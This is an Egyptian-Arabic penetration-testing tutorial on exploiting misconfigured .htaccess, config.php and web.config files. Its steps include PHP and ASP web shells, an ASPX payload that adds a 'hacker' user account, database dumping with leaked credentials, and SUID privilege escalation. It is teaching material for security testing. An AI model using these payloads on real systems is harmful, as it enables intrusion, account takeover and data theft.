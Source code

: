 # **1. إيه هي Misconfigured .htaccess, config.php, web.config؟**

## **الشرح العميق:**
الثلاث ملفات دول هما ملفات إعدادات (Configuration Files) بتستخدم في تطبيقات الويب عشان تتحكم في إزاي السيرفر بيشتغل أو بيتصل بقاعدة البيانات. لما تكون "Misconfigured" (يعني معمولة غلط أو مضبوطة بشكل ضعيف)، بيحصل ثغرات أمنية كبيرة تسمح للمهاجم يستغلها. كل ملف ليه دوره:

- **.htaccess (في سيرفرات Apache):** ملف بيتحكم في إعدادات السيرفر زي مين يدخل، إيه اللي يتنفذ، أو إزاي يتعامل مع الطلبات. لو مضبوط غلط، ممكن يخلّي أي حد يشوف ملفات أو ينفذ أوامر.
- **config.php (في تطبيقات PHP):** ملف بيحتوي على بيانات زي اسم المستخدم وكلمة السر لقاعدة البيانات. لو متاح أو مكشوف، المهاجم يقدر يسرق البيانات دي.
- **web.config (في سيرفرات IIS/Windows):** ملف إعدادات لتطبيقات الويب على ويندوز. لو فيه خطأ، ممكن يسمح بتشغيل أكواد أو الوصول لمعلومات حساسة.

## **الأدوات والأوامر العملية:**
### 1. **فحص .htaccess:**
   - لو دخلت سيرفر لينكس:
     - `ls -la /var/www/html/` -> لو لقيت `.htaccess`، افتحه:
     - `cat /var/www/html/.htaccess`.
   - لو فيه سطر زي `Allow from all` بدون قيود، يعني مفتوح للكل.

### 2. **فحص config.php:**
   - `find / -name config.php 2>/dev/null`.
   - لو لقيته (مثل `/var/www/html/config.php`):
     - `cat /var/www/html/config.php`.
   - لو فيه حاجة زي `$db_pass = "secret123";`، يبقى لقيت كنز.

### 3. **فحص web.config:**
   - في ويندوز:
     - `dir /s /b "C:\inetpub" | findstr "web.config"`.
     - افتحه: `type C:\inetpub\wwwroot\web.config`.
   - لو لقيت `<allow users="*">`، يعني الكل يقدر يدخل.

## **خلاصة بالعامية المصرية:**
"يعني الملفات دي زي كتالوج البيت، لو كتبته غلط أو سايبه في الشارع، أي حد يعرف أسرارك! .htaccess زي البواب، config.php زي دفتر كلمات السر، وweb.config زي القوانين بتاعة العمارة."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما الملفات دي تكون مضبوطة غلط، بتفتح الباب للمهاجم يعمل حاجات زي:
- **سرقة بيانات:** لو config.php مكشوف، ياخد كلمات سر قاعدة البيانات.
- **تنفيذ أوامر:** لو .htaccess بيسمح بتنفيذ ملفات، يقدر يرفع shell.
- **تجاوز الحماية:** لو web.config مفتوح، يدخل أماكن المفروض ممنوعة.
في النهاية، الثغرات دي بتكون طريق سريع لتصعيد الصلاحيات أو تدمير النظام.

## **الأدوات والأوامر العملية:**
### 1. **استغلال .htaccess:**
   - لو لقيت `.htaccess` بيسمح بتشغيل PHP في مجلد Uploads:
     - `echo "AddType application/x-httpd-php .jpg" > .htaccess`.
     - ارفع ملف `shell.jpg` بكود PHP: `<?php system($_GET['cmd']); ?>`.
     - افتح: `http://target.com/uploads/shell.jpg?cmd=id`.

### 2. **استغلال config.php:**
   - لو لقيت `/config.php` مكشوف:
     - افتح: `http://target.com/config.php`.
     - لو ظهر `$db_user = "root"; $db_pass = "pass123";`، استخدمها:
     - `mysql -u root -p` -> `pass123`.

### 3. **استغلال web.config:**
   - لو لقيت `<system.webServer><handlers>` يسمح بـ .asp:
     - ارفع ملف `shell.asp`: `<% Response.Write(CreateObject("WScript.Shell").Exec("cmd.exe /c whoami").StdOut.ReadAll()) %>`.
     - افتح: `http://target.com/shell.asp`.

## **خلاصة بالعامية المصرية:**
"الملفات دي لما تبقى مضروبة، زي ما تكون سايب كشف حسابك البنكي في الشارع! المهاجم يلاقيها، ياخد كلمة السر، يرفع حاجة يلعب بيها، ويبقى هو الكبير بتاع الموقع."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الإعدادات الضعيفة دي عشان تاخد وصول أعلى أو تتحكم في السيرفر.
- **مثال واقعي:** لو .htaccess بيسمح بتعديل قواعد السيرفر، تضيف قاعدة تسمح لك ترجع shell.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الملفات دي مضروبة، زي ما تكون لقيت خريطة الكنز! بتستغلها عشان تفتح الباب وتدخل تبقى الباشا بتاع الحتة."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس) أو IIS 10 (ويندوز).

## **الخطوة 2: البحث عن الملفات**
- في لينكس:
  - `curl http://192.168.1.10/.htaccess` -> لو ظهر، اقراه.
  - `curl http://192.168.1.10/config.php` -> لو ظهر كود، ابحث عن بيانات.
- في ويندوز:
  - `curl http://192.168.1.10/web.config` -> لو مكشوف، اقراه.

## **الخطوة 3: استغلال .htaccess**
- لو لقيت مجلد Uploads:
  - ارفع `.htaccess`: `echo "AddType application/x-httpd-php .png" > .htaccess`.
  - ارفع `shell.png`: `<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/uploads/shell.png?cmd=id` -> لو رجع `www-data`، نجحت.

## **الخطوة 4: استغلال config.php**
- لو لقيت `http://192.168.1.10/config.php` مكشوف:
  - اقراه: `$db_user = "admin"; $db_pass = "secret123";`.
  - استخدمها:
    - `mysql -u admin -psecret123 -h 192.168.1.10`.
    - `SHOW DATABASES;` -> `USE db_name;` -> `SELECT * FROM users;`.

## **الخطوة 5: استغلال web.config**
- لو لقيت `http://192.168.1.10/web.config` مكشوف:
  - ارفع `shell.aspx`: `<% System.Diagnostics.Process.Start("cmd.exe", "/c net user hacker pass123 /add"); %>`.
  - افتح: `http://192.168.1.10/shell.aspx` -> هيضيف مستخدم.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell (في لينكس):
  - `id` -> `www-data`.
  - `find / -perm -4000` -> لو لقيت SUID، استغله:
    - `/usr/bin/find . -exec /bin/bash \;` -> `id` -> `root`.
- في ويندوز:
  - `whoami` -> لو user، استخدم المستخدم الجديد لتسجيل الدخول.

## **الخطوة 7: توثيق**
- سجل كل الملفات اللي لقيتها والثغرات.
- قدم تقرير يوري خطر الإعدادات الضعيفة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت دفتر أسرار البيت، فتحته، لعبته فيه، وطلعت الكبير بتاع الموقع! الملفات دي لما تكون مضروبة، تبقى طريقك للفوز."

---

# **الخلاصة النهائية:**
Misconfigured .htaccess, config.php, وweb.config هما ثغرات كبيرة لأنهم بيكشفوا أسرار السيرفر أو بيسمحوا بتنفيذ أكواد. في الـ Pentesting، دور عليهم، استغلهم عشان تاخد shell أو تصعد صلاحياتك، ووري العميل إن نظامه زي بيت من غير قفل! بالأدوات زي curl وMetasploit، تقدر تكتشف وتستخدم الضعف ده عشان تبقى البطل بتاع اللعبة!